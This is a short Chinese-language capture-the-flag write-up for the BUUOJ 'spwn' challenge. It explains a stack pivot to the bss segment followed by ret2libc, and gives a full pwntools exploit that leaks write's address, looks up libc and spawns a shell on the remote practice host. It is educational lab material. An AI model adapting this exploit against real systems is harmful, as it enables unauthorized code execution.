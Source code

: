![](img/c6233c31ec2cfb4445ca37b2a180a2e4.png)

第一次往bss段上读入0x200字节，第二次往栈上读入0x20字节，**只能刚好溢出8个字节**

故考虑进行栈迁移将栈迁移到bss段上

由于不存在可以直接getshell的gadget，故考虑ret2libc：先泄漏出write函数真实地址后使用LibcSearcher查找libc版本后执行`system("/bin/sh")`即可

故构造exp如下：

```
from pwn import *
from LibcSearcher import *
p = remote("node3.buuoj.cn", 29227) 
e = ELF("./spwn")
bss_addr = 0x0804A300
leave_ret = 0x8048511
payload1 = p32(e.plt['write']) + p32(e.sym['main']) + p32(1) + p32(e.got['write']) + p32(4)
payload2 = b'A' * 0x18 + p32(bss_addr - 4) + p32(leave_ret)

p.send(payload1)
p.recvuntil(b'What do you want to say?')
p.send(payload2)

write_addr = u32(p.recv(4))
log.info(hex(write_addr))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')
payload3 = p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)

p.recvuntil(b"What is your name?")
p.send(payload3)
p.recvuntil(b'What do you want to say?')
p.send(payload2)
p.interactive() 
```
